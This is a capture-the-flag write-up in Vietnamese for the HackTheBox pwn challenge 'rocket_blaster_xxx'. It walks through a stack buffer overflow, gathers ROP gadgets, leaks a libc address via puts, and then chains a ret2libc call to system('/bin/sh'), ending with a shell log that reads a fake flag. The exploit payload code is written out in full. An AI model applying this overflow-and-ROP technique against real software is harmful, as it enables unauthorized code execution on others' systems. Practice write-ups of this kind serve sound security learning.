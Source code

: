 # write up rocket_blaster
- trước tiên hàm main có buffer overflow

```C
  __int64 buf[4]; // [rsp+0h] [rbp-20h] BYREF

  banner(argc, argv, envp);
  memset(buf, 0, sizeof(buf));
  fflush(_bss_start);
  printf(
    "\n"
    "Prepare for trouble and make it double, or triple..\n"
    "\n"
    "You need to place the ammo in the right place to load the Rocket Blaster XXX!\n"
    "\n"
    ">> ");
  fflush(_bss_start);
  read(0, buf, 102uLL);
  puts("\nPreparing beta testing..");
```
- vì pie tắt nên em có thể sài gadget có sẵn để leak địa chỉ libc trước, vì ở binary thiếu gadget để chạy shell
```assembly
report/hacktheboxx/rocket_blaster
shell@~🍎 ROPgadget --binary rocket_blaster_xxx | grep "pop"
0x000000000040125b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401256 : mov byte ptr [rip + 0x3dcb], 1 ; pop rbp ; ret
0x00000000004012f2 : nop ; pop rbp ; ret
0x000000000040125d : pop rbp ; ret
0x000000000040159f : pop rdi ; ret
0x000000000040159b : pop rdx ; ret
0x00000000004013ae : pop rsi ; or al, 0 ; add byte ptr [rax - 0x77], cl ; ret 0x8d48
0x000000000040159d : pop rsi ; ret
```
- sau khi có đủ gadget thì nhập vào và leak được địa chỉ, rồi tiếp theo là quay lại hàm main để nhập thêm phát nữa
```python
pop_rdi = 0x000000000040159f
ret = 0x0000000000401588
puts = 0x4010e0
main_back = 0x00000000004014ff
payload = b''.ljust(0x28)
payload += p64(ret)
payload +=  p64(pop_rdi)
payload += p64(0x404fc0)
payload += p64(puts)
payload += p64(main_back)
p.sendlineafter(b'>>',payload)
p.recvuntil(b'beta testing..\n')
```
- lần này có đủ gadget rồi thì em nhập vào và run thì có shell để cat flag
```python
log.info(f'leak_addr: ' + hex(leak_addr))
libc_base = leak_addr - 0x1147d0
syscall = libc_base + 0x0000000000029db4
bin_sh = libc_base+ 0x1d8678
pop_rax = libc_base + 0x0000000000045eb0
system_libc = libc_base + 0x50d70
payload = b''.ljust(0x28)
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system_libc)
p.sendlineafter(b'>>',payload)
```
- cat flag

```bash
Preparing beta testing..
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x131 bytes:
    b'flag.txt\t      rocket_blaster_xxx      rocket_blaster_xxx.nam\n'
    b'glibc\t\t      rocket_blaster_xxx.i64  rocket_blaster_xxx.py\n'
    b'ld-linux-x86-64.so.2  rocket_blaster_xxx.id0  rocket_blaster_xxx.til\n'
    b'libc.so.6\t      rocket_blaster_xxx.id1  rocket_blaster_xxx_patched\n'
    b'rock.md\t\t      rocket_blaster_xxx.id2  solve.py\n'
flag.txt          rocket_blaster_xxx      rocket_blaster_xxx.nam
glibc              rocket_blaster_xxx.i64  rocket_blaster_xxx.py
ld-linux-x86-64.so.2  rocket_blaster_xxx.id0  rocket_blaster_xxx.til
libc.so.6          rocket_blaster_xxx.id1  rocket_blaster_xxx_patched
rock.md              rocket_blaster_xxx.id2  solve.py
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x19 bytes:
    b'HTB{f4k3_fl4g_4_t35t1ng}\n'
HTB{f4k3_fl4g_4_t35t1ng}
$
```

